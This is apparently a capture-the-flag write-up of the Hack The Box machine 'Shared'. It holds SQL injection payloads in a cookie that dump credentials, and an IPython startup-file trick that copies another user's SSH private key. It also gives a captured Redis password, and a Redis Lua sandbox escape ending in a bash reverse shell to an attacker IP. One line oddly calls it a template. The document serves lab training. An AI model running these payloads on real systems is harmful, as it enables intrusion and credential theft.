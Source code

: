 # Shared machine

![shared](./images/shared.png)


## Author ✒️

* **Salvador Jesús Megías Andreu** - [salvadorJMA](https://github.com/salvadorJMA)
  

## Information Gathering/Enumeration
🔍  👀 💥 💀 👂 🔐 🔑 🔓 🔒 💣 📋 🚀 📃
### Nmap
We begin our reconnaissance by running an Nmap scan checking for open ports.

```console
nmap -p- --open -T5 -v -n -oG allports 10.10.11.172
```
![ports](./images/ports.png)


Basic numbering scripts are launched and detect version and service that run through the open ports found.

```console
nmap -sV -sC -p22,80,443 -oN targeted 10.10.11.172
```

![basicEnumeration](./images/basicEnumeration.png)

with this action, we have discovered a new domain to which we are redirected **https://shared.htb**.

Which is an online store, in which we are going to add a product to the cart and we are going to proceed with the checkout in the subdomain **https://checkout.shared.htb**:




![newHost](./images/newHost.png)




![cart](./images/cart.png)


In this subdomain we realize that a cookie is dragged with the id of the product that we selected previously:


![cookieCart](./images/cookieCart.png)

So we are going to try to modify the cookie to check if it is vulnerable to SQL injections:

#### 1. database name search:

```console
{"' and 0=1 union select 1,schema_name,3 from information_schema.schemata limit 1,1-- -":"2"}
```

![SQLsearch](./images/buscando.png)

Once we have verified that it is vulnerable to SQL injections, we start with the search through SQL commands for relevant information that is useful to us, such as: the name of the database, the possible users... etc.

#### 2. database's tables names search:

```console
{"' and 0=1 union select 1,table_name,3 from information_schema.tables where table_schema='checkout'-- -":"2"}
```

![SQLsearch2](./images/buscando2.png)


#### 3. user name search:

```console
{"' and 0=1 union select 1,username,3 from checkout.user-- -":"2"}
```

![SQLsearch3](./images/buscando3.png)

#### 4. Searching for james_mason's user password:

```console
{"' and 0=1 union select 1,password,3 from checkout.user where username='james_mason'-- -":"2"}
```

![SQLsearch4](./images/buscando4.png)


Once we have found the user james_mason and his password, we realize that the hash is encrypted using the md5 cryptographic reduction algorithm. So we proceed to decrypt it:

![descrytionHash](./images/descrytionHash.png)


Having already the credentials of the user james_mason, we connect via ssh:


```console
ssh james_mason@10.10.11.172
```

![accessJamesMaison](./images/accessJamesMaison.png)


There are 3 groups in our system, james_mason is specifically in the developer group, so we would have to find a way to escalate privileges in the system.

#### Groups

![groups](./images/groups.png)

We have found that the first flag user.txt is held by the user dan_smith:

![groups](./images/userTXTdan_smith.png)




If we run **pspy** we can see that uid 1001 runs periodically every x time ipython

![pspy](./images/ipythonExecution.png)

Searching for a while some vulnerability for ipython, we found the following: [vulnerability](https://github.com/ipython/ipython/security/advisories/GHSA-pq7m-3gw7-gq5x) 


```console
mkdir -m 777 profile_default
```

```console
mkdir -m 777 profile_default/startup
```

```console
echo "import os; os.system('cat ~/.ssh/id_rsa > /dev/shm/key')" > profile_default/startup/foo.py
```
![ipythonVulnerability](./images/ipythonVulnerability.png)



after a few seconds we can see in /dev/shm the id_rsa of dan_smith:

![id_rsaDan](./images/keyCreated.png)


## User Flag

In order to get the user flag, we simply need to use `cat`, because this is a template and not a real writeup!

```console
ssh dan_smith@10.10.11.172 -i id_rsa
```
![userTXT](./images/dan_smith.png)

------

As we can see, with the group we want to access, which is the sysadmin group, there is a binary:

```console
find / -group sysadmin 2>/dev/null
```

![sysAdmin](./images/sysadminGroup.png)

We execute it

```console
/usr/local/bin/redis_connector_dev
```

![redis1](./images/redisExecution1.png)

We execute it, and we see that it performs some type of login with a password, to see the password that redis uses to identify itself, we download the binary locally:

```console
scp -i id_rsa dan_smith@10.10.11.172:/home/dan_smith/redis_connector_dev .
```

![redis2](./images/redisLocalTransporte.png)


and we run it, listening on port 6379, which is the default port used by the redis service. We finally obtain the password:

```console
netcat -lvnp 6379
```

![redis3](./images/passwordRedis.png)



## Root Flag


Searching for a while some exploit for Redis RCE through Lua Sandbox Escape vulnerability, we found the following:
[exploit](https://github.com/JacobEbben/CVE-2022-0543/blob/main/exploit.py) 

We will use this exploit to generate a reverse shell using port 443:

```console
echo "bash -i >& /dev/tcp/10.10.14.117/443 0>&1" > /dev/shm/sh
```

```console
redis-cli --pass F2WHqJUz2WEz=Gqq
```

```console
 eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = l(); local f = io.popen("cat /dev/shm/sh | bash"); local res = f:read("*a"); f:close(); return res'
```

```console
netcat -lvnp 443
```


![exploit](./images/rootObtained.png)



---
<div align="center">

<br/>

⌨️ with ❤️ by [Salvador Megías Andreu](https://github.com/salvadorJMA) 😊

</div>

